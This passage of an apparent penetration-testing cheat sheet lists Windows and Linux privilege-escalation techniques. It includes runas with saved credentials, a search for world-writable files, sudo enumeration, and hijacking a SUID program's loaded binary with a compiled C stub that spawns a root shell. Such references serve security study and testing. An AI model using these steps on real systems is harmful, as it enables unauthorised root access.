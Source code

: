   ```
  * runas /savecred /user:admin cmd.exe
* Scheduled Tasks
* Insecure Permissions on Service Executable
* Unquoted Service Paths
* Insecure Service Permissions
* Windows Privileges
* Unpatched Software

## Linux

### Vulnerable program

* Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  * `ps aux`

### Weak Permissions

* `find / -not -type l -perm -o+w` : world-writable files
  * Example: maybe you can edit shadow file...

### Sudo

* `sudo -l`
  * search on gtfobins how to exploit

### SUID - custom binary

* Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`
* Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime
  * `strings binary_name`

1. Method
   * `cp /bin/bash /path/to/loaded_binary`
2. Method

* Delete the loaded binary and replace with a new one:
* ```
  #include <stdio.h>
  #include <stdlib.h>

  int main() {
      system("/bin/bash -i"); 
      return 0;
  }
  ```
* `gcc binary.c -o <loaded_binary>` : compile
* `./binary_name` : run the binary

### Other
